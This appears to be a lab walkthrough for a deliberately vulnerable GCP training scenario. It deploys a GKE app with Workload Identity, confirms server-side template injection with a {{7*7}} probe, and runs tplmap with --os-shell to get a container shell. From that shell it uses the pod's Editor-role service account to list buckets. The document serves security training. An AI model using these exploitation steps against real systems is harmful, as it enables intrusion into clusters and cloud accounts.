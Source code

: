 ## Attacking Google Kubernetes Engine 

Inorder to start the scenario go to the `scenario-4` folder by typing the below command in the `GCLOUD SHELL`

``` bash
cd scenario-4
```

> Note this scenarios requires you to run the both terraform and bash script 


First export the project id using the below command 

```bash
export PROJECT_ID="project-id"
```

```bash
export PROJECT_NUMBER=$(gcloud projects describe $PROJECT_ID --format="value(projectNumber)")
```

Next deploy the k8s cluster using the below command

```bash
gcloud services enable container.googleapis.com
```

```bash
gcloud container clusters create gcp-goat-cluster \
    --workload-pool=$PROJECT_ID.svc.id.goog --machine-type=n1-standard-1 \
    --num-nodes=2 --zone "asia-east1-a"
```

Now configure the `kubectl` to use the cluster by typing the below command

```bash
gcloud  container clusters get-credentials gcp-goat-cluster --zone "asia-east1-a"
```

> Note : It takes too long in order to setup the `kubernetes cluster` so be patient 🧘‍♂️


Once it is done create the namespace and kubernetes service account by typing the below command

```bash
kubectl create namespace test
```

```bash
kubectl create serviceaccount k8s-sa \
    --namespace test
```

Next deploy the necessary resources by typing the below command

```bash
terraform init
```

```bash
terraform apply -auto-approve -var project-id=$PROJECT_ID -var project_number=$PROJECT_NUMBER
```

Once it is done update the annotations of the `k8s-sa` service account by typing the below command

```bash
kubectl annotate serviceaccount \
    --namespace test k8s-sa \
    iam.gke.io/gcp-service-account=gcp-goat@$PROJECT_ID.iam.gserviceaccount.com
```

Deploy the application using the below command 

```bash
kubectl apply -f app.yaml -n test 
```

### Scenario info


According to the Official docs 

> Workload Identity allows a Kubernetes service account in your GKE cluster to act as an IAM service account. Pods that use the configured Kubernetes service account automatically authenticate as the IAM service account when accessing Google Cloud APIs. Using Workload Identity allows you to assign distinct, fine-grained identities and authorization for each application in your cluster.


In this scenario, we will deploy a vulnerable application to a Kubernetes cluster that has Workload Identity enabled. We will then exploit a vulnerability in the application and get the shell in the container, from there we will use the service account associated with the pod to perform the privilege escalation 

The application we were deployed is exposed via the node port on the port `30003`

First find the ip address of the node in order to access the application via nodeport by typing the below command

```bash
kubectl get nodes -o wide
```

> Note the ip address of the node

Verify the application is running by typing the below command 

```bash
kubectl get pods -n test
```

Next try to access the application by accessing the below url in the browser

```bash
http://<node-ip>:30003/page
```

The application that we deployed is vulnerable to `Server Side Template Injection` we are going to exploit it to get the shell in the container

We can verify that by typing the below payload in the `name` parameter by entering the below payload in the search box and click on the Generate page 

```bash
{{7*7}}
```

You can see the output as `49` which means the application is vulnerable to `Server Side Template Injection`

Next we are going to use the `tplmap` tool to exploit the `Server Side Template Injection` vulnerability 


In order to do that , first clone the tplmap repository by typing the below command in the `GCLOUD SHELL`

``` bash
git clone https://github.com/epinna/tplmap.git
```

Next move into the directory by typing the below command in the terminal

```bash
cd tplmap 
```

Next execute the below command to exploit the `Server Side Template Injection` vulnerability 

```bash
python3 tplmap.py -u http://<node-ip>:30003/page?name=gcp-goat --os-shell
```

You will get the shell in the container

Now we can use the `service account` associated with the pod to perform the privilege escalation

For example lets' try to list down the buckets in the project by typing the below command in the terminal

```bash
gsutil ls
```

You can find the list of buckets in the project

Since the service account has the `Editor` role we can perform as many actions as we want


If you are interested more on the `Kubernetes` I highly recommend to check out [Kubernetes-Goat](https://madhuakula.com/kubernetes-goat)
### Clean up


Exit from the os-shell by pressing `Ctrl + C`

To clean up the `Scenario` type the below command in the `GCLOUD SHELL`


``` bash
gcloud container clusters delete   gcp-goat-cluster --zone "asia-east1-a" -q 
```

> Make sure to delete the kubernetes cluster before deleting the terraform resources


```bash
cd scenario-4
```


```bash
terraform destroy -auto-approve -var project-id=$PROJECT_ID -var project_number=$PROJECT_NUMBER
```



Move into the previous folder by typing the below command in the `GCLOUD SHELL`

``` bash
cd ..
```
